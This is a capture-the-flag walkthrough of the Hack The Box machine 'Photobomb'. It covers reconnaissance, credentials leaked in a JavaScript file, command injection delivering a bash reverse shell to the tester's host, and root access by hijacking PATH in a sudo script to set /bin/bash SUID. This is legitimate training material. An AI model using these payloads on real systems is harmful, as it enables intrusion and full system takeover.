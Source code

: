 ### Host entries:
```bash
10.10.11.182    photobomb.htb
```

### Content

- Web Enumeration
- Source Code analysis found credentials
- Command Injection
- Path Hijacking

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvv -oG allPorts 10.10.11.182
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.182 ()   Status: Up
Host: 10.10.11.182 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -Pn -n -vvv -oN targeted 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.073s latency).
Scanned at 2023-02-04 06:44:24 GMT for 9s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
| ssh-rsa 
...
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrVE9flXamwUY+wiBc9IhaQJRE40YpDsbOGPxLWCKKjNAnSBYA9CPsdgZhoV8rtORq/4n+SO0T80x1wW3g19Ew=
|   256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEp8nHKD5peyVy3X3MsJCmH/HIUvJT+MONekDg5xYZ6D
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Only port 80 open, fuzzing retrieves the following entries:
```bash
dirsearch -u http://photobomb.htb                                                                             
...
Target: http://photobomb.htb/

[19:36:43] Starting: 
[19:37:51] 200 -   11KB - /favicon.ico
[19:38:21] 401 -  590B  - /printer
```
Trying to access to this endpoint "/printer" we identify a login prompt which requests credentials that we lack of:
![[Pasted image 20230204133943.png]]
So nothing useful there, after enumerating the machine we receive the following 404 error:
![[Pasted image 20230204134703.png]]
Searching about this Sinatra software we come to this article about [Reflected File Download](https://www.blackhat.com/docs/eu-14/materials/eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf) which explains what is the attack vector and how it can be exploited:
![[Pasted image 20230204134845.png]]
Basically it breaks the command by adding a "||" which is an OR operator, so abusing of this same exploit we tried to craft ours as well, we retrieve the following error on BurpSuite that gives us an error with the software used by the application:
![[Pasted image 20230204135106.png]]
WEBrick 1.6.0 and Ruby 2.7.0 is being used, so using searchsploit to find something useful we identify at least three exploits:
```bash
searchsploit webrick
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title            |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ruby 1.9 - 'WEBrick::HTTP::DefaultFileHandler' Crafted HTTP Request Denial of Service    | multiple/dos/32222.rb
Ruby 1.9.1 - WEBrick 'Terminal Escape Sequence in Logs' Command Injection                | multiple/remote/33489.txt
Ruby on Rails 3.0.5 - 'WEBrick::HTTPRequest' Module HTTP Header Injection                | multiple/remote/35352.rb
```
Since the first one is only a DoS which we don't want to exploit and the third one is using a Ruby version that the server is not running, let's try and check it out what about the second one:
```bash
Ruby WEBrick is prone to a command-injection vulnerability because it fails to adequately sanitize user-supplied input in log files.

Attackers can exploit this issue to execute arbitrary commands in a terminal.

Versions *prior to* the following are affected:

Ruby 1.8.6 patchlevel 388
Ruby 1.8.7 patchlevel 249
Ruby 1.9.1 patchlevel 378

The following example is available:

% xterm -e ruby -rwebrick -e 'WEBrick::HTTPServer.new(:Port=>8080).start' &
% wget http://www.example.com:8080/%1b%5d%32%3b%6f%77%6e%65%64%07%0a
```
Something useful, by using this payload URL-encoded and decoded it we retrieve the following payload:
![[Pasted image 20230204135330.png]]
It seems like it is working(?) by adding a command that sends something to our server and starting a tcpdump we'll be able to check if whether or not is working:
![[Pasted image 20230204135533.png]]
And we also received the ping request on our machine:
```bash
tcpdump -i tun0 -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:54:51.815885 IP 10.10.14.3.56582 > 10.10.11.182.80: Flags [S], seq 817744440, win 64240, options [mss 1460,sackOK,TS val 3803628192 ecr 0,nop,wscale 7], length 0
19:54:51.890240 IP 10.10.11.182.80 > 10.10.14.3.56582: Flags [S.], seq 3194106053, ack 817744441, win 65160, options [mss 1337,sackOK,TS val 3095281247 ecr 3803628192,nop,wscale 7], length 0
...
19:54:52.037547 IP 10.10.11.182.80 > 10.10.14.3.56582: Flags [.], ack 398, win 506, options [nop,nop,TS val 3095281395 ecr 3803628340], length 0
```
However we weren't able to go further, no other command was available from here. So let's keep enumerating the web server.
After some basic enumeration we identify some sensitive data in source code on photobomb.js file:
![[Pasted image 20230204135739.png]]
Seems like these are credentials for the /printer endpoint...
### Exploitation
It seems like a web page that downloads images:
![[Pasted image 20230204135851.png]]
While trying to download an image we intercept this request in Burpsuite:
![[Pasted image 20230204140012.png]]
We tried SQLi, XSS and a lot of web attacks but the one that retrieves something useful was command injection (we already knew about this software being vulnerable as per previous research) so by adding a basic command on this machine we received the following error:
![[Pasted image 20230204140155.png]]
The output is not sent in the response, however this seems interesting, so let's try to send a reverse shell with the following payload (URL-encoded):
```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.3/1234+0>%261'
```
![[Pasted image 20230204140251.png]]
And voila we get a shell as the wizard user:
```bash
wizard@photobomb:~/photobomb$ whoami
whoami
wizard
```
### Privilege Escalation
First let's get a [[Fully interactive TTY (Linux)]]  and let's enumerate the machine:
```bash
# Ip of the machine
ifconfig
inet 10.10.11.182  netmask 255.255.254.0  broadcast 10.10.11.255
# SUID
find / -perm -4000 2>/dev/null
# Execution with sudo
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Now that's interesting, we are able to execute a customized script called cleanup.sh as sudo let's check this out: ^2939e0
```bash
##################  cleanup.sh  ############################
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
As we can see the "find" command is being executed without relative path (such as /bin/cat or /usr/bin/truncate) so this gives us an entry point of a privesc.
In order to hijack a PATH environment we need to first craft a script called as the name of the vulnerable variable, in this case "find":
```bash
# Script that will give special permission to the bash to be run as root without password.
wizard@photobomb:~$ cat find
#!/bin/bash
chmod 4755 /bin/bash
```
Then we need to hijack the environment "PATH" variable with the folder where this new crafted "find" script is located:
```bash
# Actual PATH environment variable:
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# PATH that we need to inject on such $PATH variable:
wizard@photobomb:~$ echo $PWD
/home/wizard
```
It is of upmost importance to give permissions to the script:
```bash
wizard@photobomb:~$ chmod +x find
```
This way, since the order where a script looks for a non-relative path command/library is from left to right on the $PATH variable, first place that will lookup is the /home/wizard path, to do so we can execute the command adding the PATH environment:
```bash
# export command to add /home/wizard to the PATH
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
Finally we can execute the /bin/bash as a root user with the following command:
```bash
wizard@photobomb:~$ /bin/bash -p
bash-5.0# whoami
root
```
### Credentials
```bash
# Access for /printer to be found at /photobomb.js
pH0t0:b0Mb!
```
### Notes

- Path Hijacking is better to be run on the same command to be executed since exchanging the PATH variable and then run the command does not always work:
```bash
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

### References



